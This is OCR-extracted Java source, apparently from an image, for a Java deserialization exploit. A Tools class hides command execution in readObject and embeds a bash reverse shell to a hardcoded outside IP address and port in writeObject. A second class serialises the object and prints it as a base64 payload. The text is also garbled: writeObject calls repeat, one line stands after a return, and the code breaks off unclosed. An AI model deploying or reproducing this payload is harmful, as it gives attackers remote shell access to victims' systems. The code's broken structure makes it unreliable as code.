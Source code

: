 Tools.class

    package com.tools;//一定要这个原文件同名的路径
    
    import java.io.ByteArrayInputStream;
    import java.io.ByteArrayOutputStream;
    import java.io.IOException;
    import java.io.ObjectInputStream;
    import java.io.ObjectOutputStream;
    import java.io.Serializable;
    
    public class Tools implements Serializable {
        private static final long serialVersionUID = 1L;
    
        private String testCall;
    
        public static Object parse(byte[] bytes) throws Exception {
            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bytes));
            return ois.readObject();
        }
    
        public static byte[] create(Object obj) throws Exception {
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            ObjectOutputStream outputStream = new ObjectOutputStream(bos);
         outputStream.writeObject(obj);
       outputStream.writeObject(obj);
         outputStream.writeObject(obj);
       return bos.toByteArray();
     outputStream.writeObject(obj);
       }

        private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
            Object obj = in.readObject();
            (new ProcessBuilder((String[])obj)).start();
        }

        private void writeObject(ObjectOutputStream out) throws IOException,ClassNotFoundException {
            String[] cmd={"bash","-c","bash -i>& /dev/tcp/121.196.169.53/3333 0>&1"};
            out.writeObject(cmd);
        }

    }

example3_1.class

    package example;

    import com.tools.Tools;
    import java.util.Base64;
    
    public class example3_1 
    {
	    public static void main(String[] args) {
            Base64.Encoder encoder = Base64.getEncoder();
	    try {
                Tools cinfo = new Tools();
                byte[] bytes = Tools.create(cinfo);
                String payload = encoder.encodeToString(bytes);
                System.out.println(payload);
            } catch (Exception e) {
                e.printStackTrace();
            }
    